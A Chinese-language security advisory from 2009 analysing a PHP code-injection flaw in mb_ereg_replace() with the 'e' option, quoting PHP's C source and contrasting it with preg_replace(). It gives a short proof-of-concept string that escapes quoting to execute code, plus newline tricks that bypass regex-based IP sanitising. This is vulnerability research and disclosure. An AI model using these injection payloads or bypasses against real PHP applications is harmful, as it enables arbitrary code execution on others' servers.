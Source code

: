 ### mb_ereg(i)_replace()代码注射漏洞及其延伸出的正则应用安全问题
> ryat#wolvez.org date:2009-04-30

#### 一、描叙
mb_ereg_replace()是支持多字节的正则表达式替换函数,函数原型如下:

> string mb_ereg_replace  ( string $pattern  , string $replacement  , string $string  [, string $option= "msr"  ] )

当指定mb_ereg(i)_replace()的option参数为e时,replacement参数[在适当的逆向引用替换完后]将作为php代码被执行,但php在处理这一过程中,存在安全隐患,可能导致绕过程序的逻辑执行任意代码,另外程序员对正则匹配替换认识不够[包括preg_replace等函数],容易饶过安全限制,导致安全漏洞.

#### 二、分析

mb_ereg_replace()的代码:
``` c
// php_mbregex.c
PHP_FUNCTION(mb_ereg_replace)
{
	_php_mb_regex_ereg_replace_exec(INTERNAL_FUNCTION_PARAM_PASSTHRU, 0);
}
...
static void _php_mb_regex_ereg_replace_exec(INTERNAL_FUNCTION_PARAMETERS, OnigOptionType options)
{
...
	smart_str out_buf = { 0 };
	smart_str eval_buf = { 0 };
	smart_str *pbuf;
...
		if (zend_parse_parameters(ZEND_NUM_ARGS() TSRMLS_CC, "Zss|s",
									&arg_pattern_zval,
									&replace, &replace_len,
									&string, &string_len,
									&option_str, &option_str_len) == FAILURE) {
			RETURN_FALSE;
		}
...
	re = php_mbregex_compile_pattern(arg_pattern, arg_pattern_len, options, MBSTRG(current_mbctype), syntax TSRMLS_CC);
// 编译模式,编译后的模式存储在re_pattern_buffer结构
...
	if (eval) {
		pbuf = &eval_buf;
		description = zend_make_compiled_string_description("mbregex replace" TSRMLS_CC);
	} else {
		pbuf = &out_buf;
		description = NULL;
// *pbuf,eval_buf,out_buf都是smart_str结构,结构说明如下:
// typedef struct {
// 	char *c;
// 	size_t len;
// 	size_t a;
// } smart_str;
	}

	/* do the actual work */
	err = 0;
	pos = string;
	string_lim = (OnigUChar*)(string + string_len);
	regs = onig_region_new();
// 分配内存,初始化re_registers结构,用于存储模式匹配值[num_regs成员为子模式匹配值个数,beg成员为模式及子模式匹配值的开始位,end成员为结束位]
	while (err >= 0) {
		err = onig_search(re, (OnigUChar *)string, (OnigUChar *)string_lim, pos, (OnigUChar *)string_lim, regs, 0);
// 依据编译好的模式进行匹配
...
			/* copy the part of the string before the match */
			smart_str_appendl(&out_buf, pos, (size_t)((OnigUChar *)(string + regs->beg[0]) - pos));
// 添加模式匹配值开始前的部分[用于函数的返回值]
			/* copy replacement and backrefs */
			i = 0;
			p = replace;
			while (i < replace_len) {
				int fwd = (int) php_mb_mbchar_bytes_ex(p, enc);
				n = -1;
				if ((replace_len - i) >= 2 && fwd == 1 &&
					p[0] == '\\' && p[1] >= '0' && p[1] <= '9') {
					n = p[1] - '0';
				}
				if (n >= 0 && n < regs->num_regs) {
					if (regs->beg[n] >= 0 && regs->beg[n] < regs->end[n] && regs->end[n] <= string_len) {
						smart_str_appendl(pbuf, string + regs->beg[n], regs->end[n] - regs->beg[n]);
// 如果使用逆向引用且存在相应的[子]模式匹配值,就调用smart_str_appendl添加[子]模式匹配值[调用memcpy把值copy到pbuf->c+pbuf->len]
					}
				} else {
					smart_str_appendl(pbuf, p, fwd);
					p += fwd;
					i += fwd;
				}
			}
...
			if (eval) {
				zval v;
				/* null terminate buffer */
				smart_str_appendc(&eval_buf, '\0');
				/* do eval */
				if (zend_eval_string(eval_buf.c, &v, description TSRMLS_CC) == FAILURE) {
					efree(description);
					php_error_docref(NULL TSRMLS_CC,E_ERROR, "Failed evaluating code: %s%s", PHP_EOL, eval_buf.c);
					/* zend_error() does not return in this case */
				}

// 如果option指定为e,就调用zend_eval_string处理eval_buf.c,也就是pbuf->c[先编译成opcode,在调用zend_execute处理opcode]
//上面的代码mb_ereg_replace对所捕获的子模式的匹配值没有安全处理,直接调用zend_eval_string执行replace后的值.
//这样将引来一些安全隐患:比如可以引入'来闭合之前的' ,另外我们也可以引入nullbyte来截断后面的代码[zend_eval_string是not binary safe的]:)

为了对比说明这个安全漏洞我们同样来分析下preg_replace()在/e下执行php代码的处理过程:

//preg_replace()
...
			if (eval) {
				eval_result_len = preg_do_eval(replace, replace_len, subject,
											   offsets, count, &eval_result TSRMLS_CC);
// 在e修正符模式下调用preg_do_eval
...
static int preg_do_eval(char *eval_str, int eval_str_len, char *subject,
						int *offsets, int count, char **result TSRMLS_DC)
{
...
	smart_str    code = {0};
	
	eval_str_end = eval_str + eval_str_len;
	walk = segment = eval_str;
	walk_last = 0;

	while (walk < eval_str_end) {
		/* If found a backreference.. */
		if ('\\' == *walk || '$' == *walk) {
			smart_str_appendl(&code, segment, walk - segment);
			if (walk_last == '\\') {
				code.c[code.len-1] = *walk++;
				segment = walk;
				walk_last = 0;
				continue;
			}
			segment = walk;
			if (preg_get_backref(&walk, &backref)) {
				if (backref < count) {
					/* Find the corresponding string match and substitute it
					   in instead of the backref */
					match = subject + offsets[backref<<1];
					match_len = offsets[(backref<<1)+1] - offsets[backref<<1];
					if (match_len) {
						esc_match = php_addslashes_ex(match, match_len, &esc_match_len, 0, 1 TSRMLS_CC);
// 如果使用逆向引用且存在相应的[子]模式匹配值,就对所捕获的[子]模式匹配值调用php_addslashes_ex
...
				smart_str_appendl(&code, esc_match, esc_match_len);
// 添加[子]模式匹配值
...
	smart_str_appendl(&code, segment, walk - segment);
	smart_str_0(&code);

	compiled_string_description = zend_make_compiled_string_description("regexp code" TSRMLS_CC);
	/* Run the code */
	if (zend_eval_string(code.c, &retval, compiled_string_description TSRMLS_CC) == FAILURE) {
		efree(compiled_string_description);
		php_error_docref(NULL TSRMLS_CC,E_ERROR, "Failed evaluating code: %s%s", PHP_EOL, code.c);
		/* zend_error() does not return in this case */
	}
// 调用zend_eval_string处理code.c
```

preg_replace()函数一样对所捕获的模式匹配值调用php_addslashes_ex.

#### 三、测试代码:
``` php
<?php
//mb_ereg(i)_replace() evaluate replacement string vulnerability
function ryat() {}

$str = '\', phpinfo(), \'';
mb_ereg_replace('^(.*)$', 'ryat(\'\1\')', $str, 'e');

?>
```

#### 四、其延伸出的正则应用安全问题

从上面对mb_ereg_replace()代码分析看看出mb_ereg_replace()函数整个处理过程可以简单描述为:

检查参数,编译pattern,依据编译后的pattern对string进行匹配,如果存在匹配值[没有模式匹配值,则把string作为返回值并返回],把string中模式匹配值前面的部分添加到返回值,对模式匹配值进行替换,如果replacement中使用逆向引用且存在相应的[子]模式匹配值,替换replacement中的逆向引用[注意这里没对替换的模式及子模式匹配值做任何处理,另外这里其实并非替换,具体处理过程请看上面的源码].如果option没有指定e,就把replacement添加到返回值;如果指定e,把replacement作为php代码执行,并把代码执行后的返回值添加到返回值.把string中模式匹配值后面的部分添加到返回值.返回返回值.

通过对mb_ereg_replace()正则替换流程的分析及很多的应用程序的代码分析,发现很多程序员对正则表达式替换函数[包括preg_replace等函数]的处理过程不了解可能导致一些逻辑错误.

测试如下代码:
``` php
<?php
$onlineip = 'ryat';
echo $onlineip = preg_replace("/^([\d\.]+).*/", "\\1", $onlineip);
?>
```
上面的代码直接输出ryat了,这个是由于正则替换时,当不匹配时,就返回原值的了.
  
来思考下这个问题的修补,比如:
``` php
<?php
$onlineip = 'ryat';
echo $onlineip = preg_replace("/^([\d\.]*).*/", "\\1", $onlineip);
?>
```
输出为空了,因为这个正则可以匹配$onlineip,所以这里会返回\1对应的子模式匹配值,好像完美的fix了?其实还可以绕过: 
``` php
<?php
$onlineip = "\nryat";
// $onlineip = "ryat\nryat";
echo $onlineip = preg_replace("/^([\d\.]*).*/", "\\1", $onlineip);
?>
```

因为在没有用s模式修正符下.是不匹配的\n的,所以\nryat部分不被正则匹配,将会作为返回值[或者返回值的一部分]返回:)

五 实际应用
暂缺
  
